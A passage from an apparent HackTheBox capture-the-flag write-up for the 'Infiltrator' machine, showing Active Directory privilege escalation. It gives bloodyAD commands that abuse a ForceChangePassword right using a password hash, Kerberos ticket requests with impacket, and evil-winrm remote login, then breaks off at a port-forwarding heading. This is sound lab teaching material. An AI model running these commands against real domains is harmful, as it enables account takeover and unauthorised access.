 ### DACL Attack: ForceChangePassword

We then use `bloodyAD` to change the password of the `m.harris` user:

```bash
bloodyAD --host DC01.INFILTRATOR.HTB -d INFILTRATOR.HTB --dc-ip 10.10.11.31 \
-u 'e.rodriguez' -p ':b02e97f2fdb5c3d36f77375383449e56' \
set password "m.harris" "Password@987"
```

![image.png](image%2012.png)

## Host Foothold

After reviewing the BloodHound data, we see that the `m.harris` user belongs to the `Remote Management Users` group, which means we can use `evil-winrm` to log in:

![image.png](image%2013.png)

We can follow the provided guide to set up Kerberos authentication for `evil-winrm`:

[Setting Up evil-winrm for Kerberos Authentication](https://notes.benheater.com/books/active-directory/page/kerberos-authentication-from-kali)

We use `getTGT.py` to obtain a TGT for the `m.harris` user:

```bash
impacket-getTGT INFILTRATOR.HTB/m.harris:'Password@987'
export KRB5CCNAME=$(pwd)/m.harris.ccache
```

Logging in via `evil-wirnm` as the `m.harris` user:

```bash
evil-winrm -i DC01 -r INFILTRATOR.HTB
```

![image.png](image%2014.png)

### BloodHound Collection

We use `SharpHound.exe` to ingest BloodHound, collect more accurate domain information, and overwrite the existing data in BloodHound:

![image.png](image%2015.png)

## LM: m.harris → winrm_svc

After enumerating the target host, we see that the `Output Messenger` application is installed and running:

![image.png](image%2016.png)

### Forwarding Internal Ports
